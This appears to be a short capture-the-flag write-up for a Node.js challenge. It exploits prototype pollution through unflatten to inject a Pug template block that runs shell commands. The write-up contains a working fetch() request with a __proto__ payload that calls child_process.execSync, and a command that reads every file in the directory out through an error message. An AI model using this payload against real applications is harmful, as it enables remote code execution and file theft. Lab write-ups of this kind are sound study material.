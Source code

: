 So due to how the pug engine works and the fact that your input is run through unflatten you can do prototype polution

We run this as it will cat out all files and then error as its trying to run that as a command therefor allowing us to read the output in the error
```bash
sh -c '$(cat ./*)'
```

```js
fetch("http://46.101.54.143:31088/api/submit", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-GB,en-US;q=0.9,en;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://46.101.54.143:31088/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": JSON.stringify({
    "song.name": "ASTa la vista baby",
    "__proto__.block": {"type":"Text","line":"process.mainModule.require('child_process').execSync(`sh -c '$(cat ./*)'`)"}
}),
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```